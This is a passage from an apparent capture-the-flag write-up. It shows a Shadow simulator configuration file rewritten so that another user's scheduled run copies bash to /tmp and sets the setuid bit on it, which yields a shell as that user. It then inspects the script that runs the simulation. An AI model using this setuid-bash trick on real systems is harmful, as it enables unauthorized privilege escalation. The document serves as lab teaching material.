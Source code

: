 

Reference Link : https://shadow.github.io/docs/guide/getting_started_basic.html


My configured network-simulation.yml
~~~
```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s
```
~~~

We can overwrite the existing file using `wget -O`. Afterwards, we can easily get a user shell:

Got shell as juno,
![[Pasted image 20230613201857.png]]

But with that we cant read user flag , which is in jovian 's home category.

**Jupyter --> Jovian Shell**

To read user flag , i can see **shadow-simulation.sh**
~~~
cat shadow-simulation.sh
~~~

~~~
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
~~~
